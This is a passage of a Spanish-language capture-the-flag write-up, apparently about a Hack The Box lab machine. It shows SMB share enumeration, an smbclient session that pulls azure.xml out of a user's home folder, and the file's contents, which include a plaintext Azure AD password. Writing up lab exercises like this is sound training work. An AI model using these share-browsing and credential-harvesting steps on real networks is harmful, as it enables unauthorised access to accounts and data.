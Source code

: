 Esto me reportó información interesannte:

```json
 "azure_uploads": {},
    "users$": {
        "mhope/azure.xml": {
            "atime_epoch": "2020-01-03 14:41:18",
            "ctime_epoch": "2020-01-03 14:39:53",
            "mtime_epoch": "2020-01-03 15:59:24",
            "size": "1.18 KB"
        }
    }
```

Hay dentro de users$ un directorio de usuario llamado mhope que contiene un archivo xml de azure. Nos lo descargamos

```bash
❯ smbclient '\\10.10.10.172\users$' -U 'SABatchJobs'
Enter WORKGROUP\SABatchJobs's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan  3 14:12:48 2020
  ..                                  D        0  Fri Jan  3 14:12:48 2020
  dgalanos                            D        0  Fri Jan  3 14:12:30 2020
  mhope                               D        0  Fri Jan  3 14:41:18 2020
  roleary                             D        0  Fri Jan  3 14:10:30 2020
  smorgan                             D        0  Fri Jan  3 14:10:24 2020
c
                31999 blocks of size 4096. 28979 blocks available
smb: \> cd mhope\
smb: \mhope\> ls
  .                                   D        0  Fri Jan  3 14:41:18 2020
  ..                                  D        0  Fri Jan  3 14:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 14:40:23 2020

                31999 blocks of size 4096. 28979 blocks available
smb: \mhope\> get azure.xml 
getting file \mhope\azure.xml of size 1212 as azure.xml (3,2 KiloBytes/sec) (average 3,2 KiloBytes/sec)
smb: \mhope\>
```

El archivo contiene lo siguiente:

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```
